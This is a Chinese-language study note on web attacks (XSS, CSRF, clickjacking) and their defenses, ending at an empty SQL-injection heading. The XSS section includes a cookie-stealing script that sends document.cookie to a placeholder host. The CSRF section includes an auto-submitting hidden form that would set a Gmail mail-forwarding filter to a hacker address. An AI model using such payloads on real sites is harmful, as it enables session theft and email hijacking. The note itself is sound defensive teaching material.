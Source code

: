 ```yaml
---
{
  'title':'安全'
}
---
```


# 安全

## 网络安全攻击

- `XSS`Cross Site Scripting 跨站脚本攻击
- `CSRF`Cross-site request forgery 跨站请求伪造
- 点击劫持

### XSS

XSS(Cross Site Scripting跨站脚本)。XSS定义的主语是“脚本”，是一种跨站执行的脚本，也就是javascript脚本，指的是在网站上注入我们的javascript脚本，执行非法操作。
比如input框，文本编辑器输入一些内容

#### 场景

```html
<script>
  var img = document.createElement('img')
  img.src = 'http://xxx.com/api/xxx?info=' + document.cookie 
  //执行此代码，就会将攻击的cookie提交到自己制定的服务器中
</script>
```

#### 解决

- 替换字符串

```js
const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
```

- 借助第三方工具
 <https://www.npmjs.com/package/xss>

#### Vue和React默认已屏蔽Xss攻击

但下面的场景会开启

- Vue `v-html`
- React `dangerouslySetInnerHTML`

### CSRF

CSRF（Cross-site request forgery跨站请求伪造，也被称为“One Click Attack”或者Session Riding，通常缩写为CSRF或者XSRF，是一种对网站的恶意利用。CSRF定义的主语是”请求“，是一种跨站的伪造的请求，指的是跨站伪造用户的请求，模拟用户的操作

#### 场景

请看下面的故事

- 小明登录了 Gmail 邮箱，收到一封广告邮件 “转让比特币，只要 998”
- 小明抱着好奇的心态点开看了看，发现是个空白页面，就关闭了
但此时，攻击已经完成了。黑客在这个空白页面设置了 js 代码，会让小明的邮件都转发到 `hacker@hackermail.com` 。<br>
因为小明已经登录了 Gmail ，有了 Gmail 的 cookie 。所以再去请求 Gmail API 就会带着 cookie ，就有可能成功。

```html
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/> 
    .....
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 
<script> 
    document.forms[0].submit();

    // PS：有些是 post 请求，有些是 get 请求
    //     get 请求如果用 img.src 还可以规避跨域，更加危险
</script>
```

#### CSRF 的过程

- 用户登录了 `a.com` ，有了 cookie
- 黑客引诱用户访问 `b.com` 网页，并在其中发起一个跨站请求 `a.com/api/xxx`
- `a.com` API 收到 cookie ，误以为是真实用户的请求，就受理了

#### 解决cookie跨域

- 严格的跨域请求限制
- 为 cookie 设置 `SameSite` 不随跨域请求被发送 `Set-Cookie: key1=val1; key2=val2; SameSite=Strict;`
- 关键接口使用短信验证码等双重验证

### 点击劫持 Clickjacking

点击劫持的原理：黑客在自己的网站，使用隐藏的 `<iframe>` 嵌入其他网页，诱导用户按顺序点击。

钓鱼网站

使用 JS 预防

```js
if (top.location.hostname !== self.location.hostname) {
    alert("您正在访问不安全的页面，即将跳转到安全页面！")
    top.location.href = self.location.href
}
```

#### 解决

增加 http header `X-Frame-Options:SAMEORIGIN` ，让 `<iframe>` 只能加载同域名的网页。

PS：点击劫持，攻击那些需要用户点击操作的行为。CSRF 不需要用户知道，偷偷完成。

### ## SQL 注入
